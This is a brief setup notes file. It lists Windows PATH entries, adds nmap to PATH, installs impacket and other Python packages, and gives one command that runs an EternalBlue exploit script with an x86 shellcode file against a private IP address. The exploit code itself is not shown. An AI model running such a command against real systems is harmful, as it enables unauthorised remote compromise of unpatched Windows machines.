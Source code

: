 # -SystemRoot-

%SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\

setx PATH "%PATH%;C:\Path\To\nmap"


pip install impacket


python eternalblue_exploit7.py 192.168.1.9 sc_x86.bin


python -m pip install --upgrade pip setuptools


python -m pip install cryptography


python -m pip install build


python -m pip install impacket
